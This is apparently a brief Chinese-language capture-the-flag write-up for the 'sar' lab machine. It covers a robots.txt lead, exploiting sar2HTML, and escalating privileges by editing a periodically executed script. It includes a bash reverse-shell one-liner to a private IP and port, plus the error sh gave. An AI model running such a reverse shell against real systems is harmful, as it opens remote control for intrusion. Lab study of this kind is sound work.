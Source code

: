 # sar

## 内容

1.[robots.txt](https://zhuanlan.zhihu.com/p/65463520)  
2.使用反弹shell时，如果是`sh`,出现问题`bash`则没有问题

```bash
bash -i >& /dev/tcp/192.168.205.138/8888 0>&1
/bin/sh: 3: Syntax error: Bad fd number
```

3.可以使用burpsuite进行解码url,防止转义问题
![''](./image_holiday/urlcode.png)  
4.[linux用户权限](https://blog.csdn.net/lv8549510/article/details/85406215)

## 思路

1.sar2HTML漏洞  
2.修改write.sh内容
![''](./image_holiday/linpeas.jpg)
得知finally.sh周期性执行
